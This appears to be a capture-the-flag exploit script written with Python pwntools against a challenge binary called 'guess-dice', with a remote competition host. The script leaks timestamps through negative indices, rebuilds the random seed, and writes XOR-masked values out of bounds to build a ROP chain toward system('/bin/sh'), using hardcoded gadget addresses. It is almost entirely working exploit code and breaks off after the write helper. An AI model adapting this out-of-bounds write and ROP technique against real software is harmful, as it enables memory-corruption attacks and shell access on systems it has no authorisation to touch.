 exploit:

```python
#!/usr/bin/python3

from pwn import *
import sys
import subprocess

if len(sys.argv) > 1:
    r = remote('dice.pwn.quals.r2s.tw', 10103)
else:
    r = process('./guess-dice')

"""
[0] Read Dice
[1] Change Dice
[2] Guess Dice
"""

_system = 0x411a80
pop_rdi_ret = 0x4018ea
ret = 0x40101a
binsh = 0x4B69EB

# 0x401fac
r.sendlineafter('> ', '0')
r.sendlineafter('> ', '-4')
r.recvuntil(' is ')
tv_sec = int(r.recvline()[:-1])

r.sendlineafter('> ', '0')
r.sendlineafter('> ', '-2')
r.recvuntil(' is ')
tv_usec = int(r.recvline()[:-1])

info(f"sec, usec: {hex(tv_sec)}, {hex(tv_usec)}")
seed = (tv_sec & 0xffffffff) ^ (tv_usec & 0xffffffff)
info(f"seed: {seed}")

proc = subprocess.Popen(["./test", f"{seed}"], stdout=subprocess.PIPE)
out, err = proc.communicate()
rands = list(map(int, out.split(b' ')[6:-1]))
idx = 0
print(rands)

# 13 | 12 -> rbp
# 15 | 14 -> ret

def write_to_offset(offset, val):
    global idx

    u = val >> 32
    l = val & 0xffffffff

    r.sendlineafter('> ', '1')
    r.sendlineafter('Dice number want to change', str(offset))
    r.sendlineafter('Value with hash', str((l ^ rands[idx]) & 0xffffffff))
    print(f"{l} ^ {rands[idx]}")
    idx += 1
    r.sendlineafter('> ', '1')
    r.sendlineafter('Dice number want to change', str(offset+1))
    r.sendlineafter('Value with hash', str((u ^ rands[idx]) & 0xffffffff))
    print(f"{u} ^ {rands[idx]}")
```